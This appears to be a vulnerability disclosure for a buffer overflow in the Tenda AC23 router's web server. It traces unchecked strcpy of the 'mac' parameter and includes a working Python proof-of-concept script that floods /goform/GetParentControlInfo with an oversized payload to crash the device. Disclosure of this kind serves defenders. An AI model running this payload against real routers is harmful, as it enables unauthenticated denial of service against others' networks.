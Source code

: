 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23 (AC23V1.0re_V16.03.07.52)  
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC23 device running firmware version AC23V1.0re_V16.03.07.52. Due to insufficient restrictions on certain parameters and the lack of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack via parameters in the endpoint: `/goform/GetParentControlInfo``sub_433CF4``formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd. ([https://www.tenda.com.cn](https://www.tenda.com.cn))  
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)  
+ **Affected Product**: Tenda Wi-Fi 5 Router AC23 device  
+ **Affected Version**: AC23V1.0re_V16.03.07.52  
+ **Attack Vector**: Exploiting functions without boundary checks and with insufficient parameter restrictions, using carefully constructed payloads to cause a stack-based buffer overflow  
+ **Impact**:  
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `sub_433CF4`, `formDefineTendDa`  
+ **CVE ID**: Pending (CVE application in progress)  
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)  
+ **Firmware**: [https://www.tenda.com.cn/material/show/3889](https://www.tenda.com.cn/material/show/3889)

## Discovery
This vulnerability was discovered by analyzing the firmware (US_AC23V1.0re_V16.03.07.52_cn_TDC01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → sub_433BE4 → formDefineTendDa → GetParentControlInfo`  

`s` is a buffer allocated via `malloc(0x254u)`, with a size of 0x254 bytes and initialized to all zeros. The target address is `s + 2`, meaning data copying starts from the 3rd byte of `s`, leaving 602 bytes of available space (604 - 2). `Var` is external input obtained via `websGetVar(a1, "mac", &unk_4DB6AC)` (a user-controllable "mac" parameter value). The `strcpy` function continuously copies characters from `Var` until a `\0` is encountered, without verifying if the target buffer can accommodate all data. As external input, `Var` may exceed 602 bytes in length.  

Thus, a carefully crafted payload at the interface path `/goform/GetParentControlInfo` can trigger a buffer overflow.  

## Steps to Reproduce
Construct the following payload using Python:  

```python
import requests  

# 构造溢出载荷  
def create_payload():  
    buffer_size = 512000  
    payload = b"A" * buffer_size  
    v11_value = b"\xef\xbe\xad\xde"  
    payload += v11_value  
    return payload  

# 构造 HTTP 请求并发送  
def send_payload(url, payload):  
    params = {'mac': payload}  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    print("Response status code:", response.status_code)  
    print("Response body:", response.text)  

if __name__ == "__main__":  
    # 目标 URL  
    url = "http://192.168.190.239/goform/GetParentControlInfo"  
    # 创建恶意载荷  
    payload = create_payload()  
    # 发送恶意请求  
    send_payload(url, payload)  
```

Use QEMU to emulate the `httpd` extracted from `US_AC23V1.0re_V16.03.07.52_cn_TDC01.bin` (note: this file is for the MIPS little-endian architecture; IDA must be used to modify `httpd` to adapt to the emulation environment).  

As shown in the figure below, emulation is successful.  

Use this script to trigger the stack overflow.  

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack via parameters in this endpoint.  
